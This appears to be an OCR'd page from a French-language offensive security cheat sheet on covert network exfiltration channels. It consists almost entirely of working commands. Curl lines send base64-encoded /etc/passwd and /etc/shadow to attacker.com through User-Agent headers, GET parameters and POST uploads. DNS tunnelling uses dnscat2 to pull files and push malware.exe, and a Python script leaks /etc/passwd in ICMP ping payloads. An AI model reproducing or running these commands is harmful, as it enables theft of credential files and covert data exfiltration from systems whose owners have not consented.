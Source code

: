 ## 🌐 Canaux d'Exfiltration Réseau

### HTTP/HTTPS Covert Channels
```bash
# Exfiltration via User-Agent
curl -H "User-Agent: $(base64 -w0 /etc/passwd)" http://attacker.com/collect

# Exfiltration via paramètres GET
data=$(base64 -w0 /etc/shadow | tr '/' '_' | tr '+' '-')
curl "http://attacker.com/search?q=$data"

# Exfiltration via POST multipart
curl -F "file=@/etc/passwd" -F "type=backup" http://attacker.com/upload
```

### DNS Tunneling
```bash
# Installation dnscat2 (serveur attaquant)
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server && ruby dnscat2.rb attacker.com

# Client (machine compromise)
./dnscat2-client attacker.com

# Transfert de fichier via DNS
# (depuis session dnscat2)
download /etc/passwd
upload malware.exe
```

### ICMP Tunneling
```bash
# Avec ptunnel (serveur attaquant)
ptunnel -p proxy.attacker.com -lp 8000 -da target-machine -dp 22

# Exfiltration via ping custom
# Script Python pour exfiltration ICMP
python3 << 'EOF'
import subprocess
import base64

def exfil_icmp(data, target_ip):
    encoded = base64.b64encode(data.encode()).decode()
    # Fragment en chunks de 32 bytes (limite ICMP)
    chunks = [encoded[i:i+32] for i in range(0, len(encoded), 32)]
    
    for i, chunk in enumerate(chunks):
        cmd = f"ping -c 1 -p {chunk.encode().hex()} {target_ip}"
        subprocess.run(cmd.split(), capture_output=True)

with open('/etc/passwd', 'r') as f:
    data = f.read()
    exfil_icmp(data, "attacker.com")
EOF
```
